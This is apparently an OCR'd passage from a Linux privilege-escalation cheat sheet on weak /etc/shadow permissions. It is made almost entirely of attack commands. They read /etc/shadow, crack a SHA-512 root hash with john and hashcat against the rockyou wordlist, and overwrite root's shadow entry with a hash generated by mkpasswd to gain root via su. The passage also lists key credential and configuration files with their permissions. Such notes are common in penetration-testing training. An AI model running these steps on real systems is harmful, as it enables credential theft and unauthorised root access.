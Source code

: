 ```
exit
```

## CATEGORY "WEAK FILE PERMESSIONS" - READABLE /ETC/SHADOW
```
ls -l /etc/shadow
cat /etc/shadow
```
```
echo '$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0' > hash.txt
cat hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
hashcat -a 0 -m 1800 hash.txt /usr/share/wordlists/rockyou.txt
hashcat -a 0 -m 1800 hash.txt /usr/share/wordlists/rockyou.txt --show
```
```
su root
password: password123
whoami && ifconfig
```
IMPORTANT FILES
```
┌──(kali㉿kali)-[/tmp]
└─$ ls -al /etc/passwd
-rw-r--r-- 1 root root 3231 Mar 10 12:08 /etc/passwd
                                                                                                                               
┌──(kali㉿kali)-[/tmp]
└─$ ls -al /etc/shadow
-rw-r----- 1 root shadow 1509 Mar 10 12:08 /etc/shadow
                                                                                                                               
┌──(kali㉿kali)-[/tmp]
└─$ ls -al /etc/sudoers
-r--r----- 1 root root 1714 Oct 10  2022 /etc/sudoers
                                                                                                                               
┌──(kali㉿kali)-[/tmp]
└─$ ls -al /etc/ssh/sshd_config
-rw-r--r-- 1 root root 3222 Oct 16  2022 /etc/ssh/sshd_config
                                                                                                                               
┌──(kali㉿kali)-[/tmp]
└─$ 
```

## CATEGORY "WEAK FILE PERMESSIONS" - WRITEABLE /ETC/SHADOW
```
ls -l /etc/shadow
mkpasswd -m sha-512 test_password
$6$RI8vxrmPWU0Xv$u4EgyPSgA7SLBs0O.ZUbYrbzavoP.B81ApAcQfBnz483l5Phrc.8HegjUZgvOoGL74h0NG0rlYZDhVkmKjzQs0
nano /etc/shadow
root:???????????????:17298:0:99999:7:::
su root
password: test_password
whoami && ifconfig
```
